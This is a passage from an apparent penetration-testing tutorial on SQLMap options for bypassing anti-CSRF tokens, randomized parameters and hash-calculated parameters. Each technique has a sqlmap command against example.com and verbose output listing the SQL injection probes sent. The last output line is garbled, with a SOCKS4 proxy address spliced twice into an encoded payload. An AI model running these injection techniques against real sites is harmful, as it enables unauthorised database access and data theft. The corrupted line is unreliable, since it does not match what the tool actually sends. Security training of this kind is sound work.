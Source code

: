 ## Bypassing Web Application Protections

Many mechanisms are incorporated into SQLMap, which can help us successfully bypass such protections.

### Anti-CSRF Token Bypass

One of the first lines of defense against the usage of automation tools is the incorporation of anti-CSRF (i.e., Cross-Site Request Forgery) tokens into all HTTP requests, especially those generated as a result of web-form filling.

In most basic terms, each HTTP request should have a (valid) token value available only if the user actually visited and used the page. While the original idea was the prevention of scenarios with malicious links, where just opening those link would have undesired consequences for unaware logged-in users (e.g., open administrator pages and add a new user with predefined credentials), this security feature also inadvertently hardened the applications against the (unwanted) automation.

The most important option for bypassing this is `csrf-token`. by providing the token parameter name (which should already be available within the provided request data), SQLMap will automatically attempt to parse the target response content and search for fresh token values so it can use them in the next request.

Even without providing the token's name via `--csrf-token`, if one of the provided parameters contains any of the common infixes (i.e. `csrf`, `xsrf`, `token`), the user will be prompted whether to update it in further requests:
```shell-session
$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. This is similar to the Anti-CSRF technique, but there is no need to parse the web page content. For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

### Calculated Parameter Bypass

This is a mechanism where the web application expects a proper parameter value, based on another parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`). To bypass this, we can use `--eval`, where a valid python code is being evaluated just before the request is being sent to the target:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```
